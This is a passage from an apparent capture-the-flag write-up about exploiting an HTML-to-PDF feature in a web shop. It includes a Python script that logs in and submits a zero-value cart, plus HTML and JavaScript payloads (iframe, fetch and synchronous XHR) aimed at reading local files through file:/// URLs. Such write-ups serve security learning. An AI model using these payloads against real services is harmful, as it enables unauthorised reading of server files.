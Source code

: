 ```py
r = s.post(
    BASE_URL + "/login",
    data={
        "username": username,
        "password": "abcdefghijklmno"
    }
)

try:
    r.raise_for_status()
except:
    log.warn("Failed to login.")
    print(r.text)
    exit()

log.success("Logged in successfully.")

r = s.post(
    BASE_URL + "/buy",
    data={
        "cartProduct1": 0,
        "cartProduct2": 0,
        "cartProduct3": 0,
        "cartTotal": 0
    }
)

try:
    r.raise_for_status()
except:
    log.warn("Failed to buy.")
    print(r.text)
    exit()

with open(f'output.pdf', 'wb') as f:
    f.write(r.content)

log.success("Bought successfully.")
```

I can now iterate a lot faster by just changing the contents of the payload variable, and get a PDF in no time.

## Arbitrary file read

As previously stated, the `wkpdftohtml` tool runs in the `file:///` origin. This means that we can create requests to other `file:///` URLs without being stopped by CORS.

There are multiple ways we can try to achieve this, here are a few methods:

1. iframes
   - Ex. `<iframe src="file:///..."></iframe>`
   - I tried to do this at first, but could not get it to work
2. Javascript fetch
   - Ex. `<script>fetch('file:///').then(res => res.text()).then(body => document.write(body))`
   - Could not get this to work either
3. Javascript XMLHttpRequest
   - XHR supports both sync and async functionality.
   - I could not get it to work with the async functionality
   - In the end i got it working by using **synchronous XHR**.

